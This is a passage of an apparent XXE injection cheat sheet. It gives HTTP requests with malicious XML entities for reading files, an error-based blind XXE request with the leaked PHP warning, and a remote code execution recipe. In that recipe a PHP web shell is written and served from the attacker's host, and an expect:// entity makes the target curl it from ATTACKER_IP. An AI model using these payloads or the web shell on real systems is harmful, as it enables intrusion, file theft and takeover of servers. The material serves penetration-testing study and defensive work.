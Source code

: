 ``` HTTP
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&joined;</email>    <!-- reference the &joined; entity to print the file content -->
	<message>123</message>
</root>
```
---
## Remote Code Execution
### PHP 
This method requires the PHP `expect` module to be installed and enabled.
* Attacker host
``` bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
* Send the request with payload
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY email SYSTEM "expect://curl$IFS-O$IFS'ATTACKER_IP/shell.php'">
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
---
## Blind XXE
### Error Based XXE
If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input
- Request
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<root>
<name>a</name>
<tel>1</tel>
<email>&joined;</email>
<message>1</message>
</root>
```
- Response
``` HTTP
HTTP/1.1 200 OK

<br />
<b>Warning</b>:  DOMDocument::loadXML(): Entity 'joined' not defined in Entity, line: 5 in <b>/var/www/html/error/submitDetails.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  simplexml_import_dom(): Invalid Nodetype to import in <b>/var/www/html/error/submitDetails.php</b>
[SNIP]....
```